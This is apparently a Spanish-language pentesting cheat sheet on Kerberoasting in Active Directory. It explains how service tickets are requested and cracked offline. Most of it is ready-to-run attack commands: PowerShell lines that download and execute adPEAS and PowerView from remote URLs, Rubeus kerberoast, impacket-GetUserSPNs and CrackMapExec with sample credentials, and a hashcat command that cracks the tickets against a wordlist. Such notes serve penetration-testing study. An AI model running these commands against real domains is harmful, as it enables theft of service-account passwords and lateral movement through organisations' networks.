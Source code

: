 # Kerberoasting 

Tags: #AD #Kerberoasting #Rubeus #Crackmapexec #Impacket #BloodHound #ADPeas #PowerView #HashCat 

El "Kerberoasting" es una técnica utilizada por atacantes para extraer tickets de servicio de Kerberos en Active Directory y descifrarlos fuera de línea, con el objetivo de obtener contraseñas en texto claro de cuentas de servicio. Este ataque aprovecha configuraciones débiles, como contraseñas poco seguras en cuentas de servicio, y representa una vulnerabilidad significativa en entornos de AD, dado que no genera alertas inmediatas al realizarse el descifrado fuera de la red.

```bash 
# Funcionamiento 

1. Ticket de Servicio: En Kerberos, cuando un usuario quiere acceder a un servicio, solicita un ticket de servicio (TGS, Ticket Granting Service). Este ticket está cifrado con la contraseña de la cuenta de servicio del recurso al que el usuario quiere acceder.
    
2. Extracción: Un atacante no necesita privilegios especiales en el dominio para solicitar un ticket de servicio para cualquier cuenta de servicio. Una vez que el atacante tiene el ticket, puede exportarlo y llevarlo a otro lugar para intentar descifrarlo.
    
3. Descifrado: El atacante intentará descifrar el ticket fuera de línea utilizando herramientas de fuerza bruta o diccionarios. Si la contraseña de la cuenta de servicio es débil, el atacante podría descifrarla en un tiempo razonable.
    
4. Compromiso: Una vez que el atacante tiene la contraseña en texto claro de la cuenta de servicio, puede usarla para acceder a recursos o moverse lateralmente en la red.
```

## Detectar con BloodHound

```bash 
Para detectar posibles vectores de ataque relacionados al Kerberoasting en BloodHound simplemente ejecutamos la siguiente consulta:

	* 'List all Kerberoastable Accounts' en la pestaña de 'Analisys'
```

## Obtener Hash con ADPeas

```bash 
# Ejemplo de un hash 'Kerberoasteable'

❯ $krb5tgs$23$*roast.user$domain1.corp$MSSQL/sql.domain1.corp*$A8DDCBEA1C6AEFE971C4BA672CBC9F32$8D3...

Nota: Debemos de guardar el Hash en una sola linea
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada
```
## Obtener Hash con Rubeus

Rubeus es una herramienta avanzada de post-explotación diseñada para interactuar con el protocolo Kerberos en entornos de Active Directory (AD). Desarrollada en C#, es ampliamente utilizada en pruebas de penetración y auditorías de red por su capacidad para manipular y explorar el protocolo, permitiendo realizar diversas técnicas como Kerberoasting, extracción de tickets y ataques relacionados con la autenticación.

```bash 
1. Solicitar Tickets Kerberos (TGTs): Rubeus puede solicitar Ticket Granting Tickets (TGTs) utilizando contraseñas, hashes o incluso claves.
2. Kerberoasting: Rubeus es capaz de solicitar Ticket Granting Service (TGS) tickets para cuentas de servicio y luego intentar descifrar estos tickets fuera de línea para obtener contraseñas en texto claro, una técnica conocida como Kerberoasting.
3. Overpass (Pass-the-Ticket): Rubeus puede realizar ataques de "Overpass", donde los TGTs son utilizados para autenticarse en otros sistemas sin conocer la contraseña del usuario.
4. Ticket Renewal: Puede renovar tickets válidos que aún estén dentro de su período de renovación.
5. Dumping Tickets: Rubeus puede extraer tickets de la memoria y almacenarlos para su uso o análisis posterior.
6. Manipulación de Tickets: Puede purgar, renovar e incluso falsificar tickets de Kerberos.
7. Hunting de Tickets: Rubeus puede buscar en la red tickets específicos que proporcionen acceso a ciertos recursos o que posean ciertos privilegios.
8. Ataques de Fuerza Bruta: Puede intentar fuerza bruta contra cuentas de usuario con el objetivo de obtener un TGT.
```

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Rubeus.exe](https://github.com/Spartan-Cybersecurity/CPAD-Tools/blob/main/Rubeus.exe)

```powershell
❯ ./Rubeus.exe kerberoast     # Ejecutamos la herramienta agregando el tipo de ataque 'Kerberoast'
```

## Obtener Hash con Impacket-GetUsersSPNs

"Impacket-GetUserSPNs" es una herramienta de la suite Impacket, diseñada para interactuar con protocolos de red, específicamente en entornos Microsoft. Es ampliamente utilizada en pruebas de penetración y Red Teaming para identificar cuentas de servicio con nombres principales de servicio (SPNs) registrados en Active Directory (AD). Esto permite a los evaluadores descubrir posibles objetivos para ataques como Kerberoasting.

- Los SPNs se utilizan en Active Directory para asociar un servicio específico con una cuenta de usuario o de computadora que ejecuta ese servicio. Esto es crucial para el proceso de autenticación Kerberos.
    
- Un SPN incorrectamente configurado o asociado con una cuenta de usuario en lugar de una cuenta de servicio puede ser explotado para comprometer la seguridad de la red.

```bash 
GetUserSPNs en Impacket: La funcionalidad GetUserSPNs se utiliza específicamente para identificar y explotar configuraciones inseguras de SPNs dentro de un dominio de Active Directory. Aquí está cómo funciona:

1. Enumeración de SPNs: Primero, el atacante o pentester utiliza GetUserSPNs para enumerar todos los SPNs configurados en el dominio que están asociados con cuentas de usuario regulares en lugar de cuentas de servicio. Esto se hace enviando consultas al controlador de dominio y solicitando información específica sobre los SPNs.
    
2. Extracción de Tickets TGS: Una vez que se identifican las cuentas de usuario con SPNs, GetUserSPNs puede solicitar tickets de servicio Kerberos (conocidos como Ticket Granting Service o TGS) para esos servicios desde el controlador de dominio, utilizando la funcionalidad de Kerberos conocida como Kerberoasting.
    
3. Crackeo de Tickets: Los TGS obtenidos están cifrados con la contraseña de la cuenta de usuario asociada con el SPN. Sin embargo, debido a que muchas organizaciones utilizan políticas de contraseñas débiles, un atacante puede intentar "romper" el cifrado de estos tickets fuera de línea mediante fuerza bruta o técnicas de adivinación de contraseñas.
    
4. Compromiso de Cuentas: Si el atacante logra descifrar la contraseña de una cuenta, puede utilizar esas credenciales para acceder a sistemas, elevar privilegios, o realizar movimientos laterales dentro de la red, comprometiendo potencialmente la seguridad de toda la organización.
```

```bash 
❯ impacket-GetUserSPNs domain1.corp/clearpass.user:Password@1 -dc-ip IP -request

	# dc-ip = Dirección IP del DC
	# domain1 = Dominio 
	# clearpass.user = Usuario valido del dominio 
	# Password@1 = Contraseña del usuario valido 

Nota: Debemos de tener la IP con su dominio en el '/etc/hosts'
```

## Obtener Hash con CrackMapExec

```bash 
❯ ./cme ldap IP -u 'clearpass.user' -p 'Password@1' --kerberoast output.txt

Nota: Debemos de tener la IP con su dominio en el '/etc/hosts'
```

## Obtener Hash con PowerView

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');

❯ Request-SPNTicket -SPN "MSSQL/sql.domain1.corp"
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 --force hash-kerberoasting /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```